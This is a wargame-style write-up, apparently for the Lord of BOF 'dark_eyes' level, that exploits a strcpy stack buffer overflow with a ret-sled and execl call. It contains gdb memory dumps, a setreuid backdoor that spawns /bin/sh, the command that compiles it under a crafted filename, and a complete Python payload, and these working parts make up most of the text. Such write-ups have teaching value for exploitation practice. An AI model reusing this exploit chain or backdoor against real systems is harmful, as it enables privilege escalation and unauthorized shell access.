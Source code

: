 # Vulnerability
```c
char buffer[256];
strcpy(buffer, argv[1]);
```
This program uses strcpy function that does not check boundary.

# Exploitation
```c
// save sfp 
memcpy(saved_sfp, buffer+264, 4);

// restore sfp 
memcpy(buffer+264, saved_sfp, 4);
```

This code makes me not able to use fake ebp, But give hint with "ret sleding".

If I call ret many times, the esp goes up and I can use stack's value as library function's parameter.

```
0xfef33360:	0x41414141	0x41414141	0xfef333c8	0x080484b9
0xfef33370:	0x080484b9	0x080484b9	0x080484b9	0x0070ea00
0xfef33380:	0x0083eff4	0x00000000	0xfef33380	0xfef333c8
```
After the buffer, You can see 0x0083eff4 and this value does not changed when I executed again.

I use this address as execl's param 1 and since next address contains '\x00', I can use it as execl's param 2.

By calling ret 4 times and execl function, the execl will take param1 as 0x0083eff4's value.

```
(gdb) x/4x 0x0083eff4
0x83eff4 <svcauthsw+712>:	0x0083ed3c	0x00730b96	0x00000000	0x00818df0
```

As 0x0083eff4's value is 0x0083ed3c, I will make a backdoor file named 0x0083ed3c.

The backdoor.c is:
```c
#include <stdio.h>
int main(void) {
	setreuid(geteuid(), geteuid());
	system("/bin/sh");
}
```
And compile it as what I wanted:
```
[iron_golem@Fedora_1stFloor ~]$ gcc -o ./`python -c 'print "\x3c\xed\x83"'` ./backdoor.c
```

Now, When I send payload, The execl will execute '\x3c\xed\x83' program.

Since execl address contain '\x20', I used '-1' address not to contain '\x20'.

```assembly
(gdb) x/4i execl-1
0x7a571f <execle+271>:	nop    
0x7a5720 <execl>:	push   %ebp
0x7a5721 <execl+1>:	mov    %esp,%ebp
0x7a5723 <execl+3>:	lea    0x10(%ebp),%ecx
```
# Payload
```python
import os

filename = "/home/iron_golem/dark_eyes"

payload = ""
payload += "A"*264 # buffer + dummy
payload += "\xb9\x84\x04\x08"*4 # ret sled 4 times
payload += "\x1f\x57\x7a" # execl - 1

os.execv(filename, [filename, payload])
```
